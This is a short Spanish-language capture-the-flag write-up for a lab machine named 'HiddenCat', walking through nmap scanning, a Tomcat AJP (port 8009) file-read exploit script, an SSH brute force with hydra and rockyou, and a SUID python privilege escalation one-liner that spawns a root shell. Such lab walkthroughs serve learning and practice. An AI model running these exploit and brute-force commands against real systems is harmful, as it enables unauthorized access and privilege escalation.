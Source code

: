 Maquina: HiddenCat

Autor: El Pinguino de Mario

Dificultad: Facil

ping 172.17.0.2 -c 1

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv

Encontramos los puertos 22, 8080 y 8009 abiertos

Puerto 8080 Tenemos un Tomcat versión 9.0.30

Al hacer fuzzing con gobuster, descubrimos la ruta /manager

Pero no podemos hacer mucho con esta información

Puerto 8009

Investigando sobre el puerto 8009, encontramos que es vulnerable a un LFI debido a que Tomcat no está actualizado

HackTricks proporciona un script que, al ejecutarlo, revela lo siguiente

python2 48143.py -p 8009 -f WEB-INF/web.xml 172.17.0.2

escubrimos un posible usuario

Procedemos a realizar un ataque de fuerza bruta por SSH con hydra

hydra -l jerry -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2

Buscando permisos SUID, encontramos tanto perl como python

Nos vamos a tmp
find / -perm -4000 2>/dev/null

Consultamos GTFObins para encontrar una forma de escalar privilegios con python. Ejecutamos el siguiente comando

/usr/bin/python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

whoami
